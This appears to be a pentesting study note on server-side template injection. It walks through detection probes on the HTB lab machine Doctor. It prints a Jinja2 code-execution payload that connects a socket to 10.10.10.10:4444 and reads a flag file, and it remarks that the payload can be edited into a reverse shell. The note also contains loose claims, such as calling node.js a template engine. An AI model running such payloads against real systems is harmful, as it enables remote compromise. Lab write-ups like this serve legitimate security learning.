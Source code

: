 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

SSTI exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## How it Works

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, we can follow this flowchart:

<figure><img src="../.gitbook/assets/image (2580).png" alt=""><figcaption></figcaption></figure>

A successful injection would result in '49' being output, showing that the website does indeed process the template injected and confirming that we have RCE.

## Example

The HTB machine Doctor has a good SSTI vulnerability within it.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.&#x20;

<figure><img src="../.gitbook/assets/image (1798).png" alt=""><figcaption></figcaption></figure>

We can straightaway begin testing for SSTI via this. After using `{{7*7}}`, we would see the following:

<figure><img src="../.gitbook/assets/image (718).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would dispaly this:

<figure><img src="../.gitbook/assets/image (3164).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, we would know that the website is running on either Jinja2 or Twig. We can then grab a payload for potential RCE using PayloadAllTheThings:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```

Editing the payload to give us a reverse shell would work on this machine.&#x20;

SSTI is rather easy to exploit once found. Here are some other payloads that we can use:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

Once the template has been identified, attempt exploitation via the relevant payload.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
